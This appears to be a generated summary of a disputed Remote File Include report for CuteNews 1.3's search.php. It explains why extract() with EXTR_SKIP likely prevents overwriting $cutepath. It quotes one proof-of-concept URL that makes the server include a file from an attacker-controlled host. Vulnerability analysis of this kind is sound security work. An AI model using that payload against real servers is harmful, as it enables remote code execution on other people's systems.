 The content discusses a potential Remote File Include vulnerability in CuteNews 1.3, specifically within the `search.php` script. However, it disputes the existence of the vulnerability based on analysis of the code.

Here's a breakdown:

*   **Root Cause of Vulnerability (Disputed):** The initial claim was that the `$cutepath` variable, used in `require_once()` statements to include files, could be manipulated via a URL parameter.

*   **Weaknesses/Vulnerabilities Present:**
    *   The initial analysis of `search.php` shows that `$cutepath` is derived from `__FILE__` (the script's pathname) and is then sanitized by removing the filename. It does not appear to be directly controllable by the attacker.
    *   The file `inc/functions.inc.php`, included by `search.php`, uses `extract($_GET, EXTR_SKIP)`. This means the `$_GET` parameters are extracted to variables. The author notes that because of EXTR_SKIP, existing variables are not overwritten if a collision exists, and therefore, an attacker should not be able to overwrite `$cutepath`.
    *   The analysis suggests the vulnerability might exist somewhere else due to other calls to `file()` and `require()` which use `$cutepath`.

*   **Impact of Exploitation:** If the `$cutepath` variable could be overwritten, an attacker could include arbitrary files from a remote location, potentially leading to arbitrary code execution on the server.

*   **Attack Vectors:** The alleged attack vector is through the URL parameter `cutepath`, as demonstrated in the PoC: `search.php?cutepath=[http://host/evil.txt?](http://host/evil.txt)`.

*  **Required Attacker Capabilities/Position**: The attacker needs to be able to send HTTP requests to the vulnerable server and needs to control a server with a malicious file.

**Important Note:** This analysis disputes the existence of the described vulnerability due to the use of `EXTR_SKIP` when extracting GET parameters. The analysis also suggests that the vulnerability may exist elsewhere in the code but not exactly as described in the initial report. The provided analysis indicates that the initial vulnerability report may not be accurate.
